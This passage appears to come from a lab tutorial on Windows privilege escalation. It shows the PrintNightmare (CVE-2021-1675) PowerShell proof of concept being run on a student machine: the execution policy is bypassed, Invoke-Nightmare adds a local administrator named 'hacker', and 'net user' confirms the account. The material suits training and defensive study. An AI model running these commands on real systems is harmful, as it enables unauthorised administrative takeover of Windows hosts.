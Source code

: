If it is not running, we will receive a "path does not exist" error.

**Adding Local Admin with PrintNightmare PowerShell PoC**

Bypass execution policy on target

```powershell-session
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Import the PowerShell script to add new local admin

```powershell-session
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

**Confirming New Admin User**

```powershell-session
PS C:\htb> net user hacker

User name                    hacker
Full Name                    hacker
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ?8/?9/?2021 12:12:01 PM
Password expires             Never
Password changeable          ?8/?9/?2021 12:12:01 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```

